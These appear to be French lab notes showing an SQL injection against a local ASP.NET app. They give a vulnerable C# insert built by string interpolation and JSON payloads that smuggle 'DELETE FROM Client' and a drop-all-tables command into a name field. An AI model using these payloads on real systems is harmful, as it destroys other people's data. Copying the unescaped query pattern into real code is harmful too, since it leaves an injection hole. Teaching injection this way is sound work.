





# 04 Injection `SQL`


## Mon attaque

Table avant attaque :



Code du programme :

```cs
int InsertClient(SqlConnection con, ClientDto client)
{
    var sql = $"INSERT INTO Client (nom, prenom) VALUES ('{client.Nom}', '{client.Prenom}')";
    var cmd = new SqlCommand(sql, con);

    con.Open();
    var rowsAffected = cmd.ExecuteNonQuery();

    return rowsAffected;
}
```

Les données ne sont pas échappées et directement concaténées dans la requête.

Requête `sql attack`

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "toto",
    "prenom": "Raymond');DELETE FROM Client;INSERT INTO Client (nom, prenom) VALUES('kill','kill"
}
```

contenu de la variable `sql` :



```sql
INSERT INTO Client (nom, prenom) VALUES ('toto', 'Raymond');
DELETE FROM Client;
INSERT INTO Client (nom, prenom) VALUES('kill','kill')
```

Résultat de l'attaque :




### Version hardcore

On peut aussi détruire toutes les tables :

Avant



Code de la requête :

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "Raymond');EXEC sp_MSforeachtable @command1 = 'DROP TABLE ?';INSERT INTO Two (b) VALUES('kill"
}
```

Requête pour détruire toutes les tables (stackoverflow : https://stackoverflow.com/questions/27606518/how-to-drop-all-tables-from-a-database-with-one-sql-query)

```sql
EXEC sp_MSforeachtable @command1 = "DROP TABLE ?"
```

Résultat :



Les tables n'existant plus, cela lève une erreur.

